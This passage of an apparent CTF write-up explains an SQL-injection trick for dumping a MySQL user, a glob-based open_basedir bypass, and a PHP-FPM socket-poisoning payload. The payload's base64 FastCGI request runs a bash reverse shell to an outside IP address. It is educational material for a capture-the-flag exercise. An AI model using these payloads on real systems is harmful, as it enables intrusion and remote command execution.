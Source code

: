 There was one unintended, that I wanted to discuss, one of my teammate([@\_\_c3rb3ru5__](https://twitter.com/__c3rb3ru5__)) found that during challenge **testing phase**(that's why testing is important ;)). That trick was really mind-fucking.
```sql
select * from users where username='a' 'dm' 'in'>(user()>'s');
```
Here if it true you will get redirected else it will return `You are not admin`. Using that you can dump the user. That's why I had to blacklist `>`, because my payload can also work with `<` ;)  

Now we go into the second phase of the challenge, that is SSRF + bypass disable_functions to get RCE.  

The first few steps are same as last year, get to know the user_privileges and read the mysql conf file, using that write the shell payload at `URL/tmp_hell`. These things you can do using [Gopherus](https://github.com/tarunkant/Gopherus). There you can see that you will not able to execute the `system` commands, because of disable_function. So next thing you would do is to run `phpinfo()` and you will see the list of disable_function:
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,stream_socket_sendto,stream_socket_client,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,imap_open,ld,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir
```
and open_basedir:
```
open_basedir = "/var/www/html:/tmp/test1"
```
### Trick-5
Bypass open_basedir using:
```
$file_list = array(); $it = new DirectoryIterator("glob:///va?/ru?/p?p//*"); foreach($it as $f) { $file_list[] = $f->__toString(); } echo 1234; $it = new DirectoryIterator("glob:///va?/ru?/p?p/.*"); foreach($it as $f) { $file_list[] = $f->__toString(); } sort($file_list); foreach($file_list as $f){ echo $f . "\n"; }
```
Thanks to [balsn-writeup](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy).

There you can find php-fpm unix socket file which gives you the idea that there is PHP-FPM installed in the server.  
Now you need to poison the request to the unix socket to get the shell. You can use `fsockopen` for writing in the socket file. Payload you can generate from [Gopherus](https://github.com/tarunkant/Gopherus), and make sure you don't use default file name, use `/var/www/html/index.php` instead.  
The payload for getting shell:
```
$fp%20=%20fsockopen("unix:///var/run/php/php7.0-fpm.sock",%20-1,%20$errno,%20$errstr,%2030);%20fwrite($fp,base64_decode("AQEAAQAIAAAAAQAAAAAAAAEEAAEBBQUADxBTRVJWRVJfU09GVFdBUkVnbyAvIGZjZ2ljbGllbnQgCwlSRU1PVEVfQUREUjEyNy4wLjAuMQ8IU0VSVkVSX1BST1RPQ09MSFRUUC8xLjEOA0NPTlRFTlRfTEVOR1RIMTAxDgRSRVFVRVNUX01FVEhPRFBPU1QJS1BIUF9WQUxVRWFsbG93X3VybF9pbmNsdWRlID0gT24KZGlzYWJsZV9mdW5jdGlvbnMgPSAKYXV0b19wcmVwZW5kX2ZpbGUgPSBwaHA6Ly9pbnB1dA8XU0NSSVBUX0ZJTEVOQU1FL3Zhci93d3cvaHRtbC9pbmRleC5waHANAURPQ1VNRU5UX1JPT1QvAAAAAAABBAABAAAAAAEFAAEAZQQAPD9waHAgc3lzdGVtKCdiYXNoIC1jICJzaCAtaSA%2BJiAvZGV2L3RjcC8zLjE1LjI1NS4yNC8xMjM0IDA%2BJjEiJyk7ZGllKCctLS0tLU1hZGUtYnktU3B5RDNyLS0tLS0KJyk7Pz4AAAAA"));
```
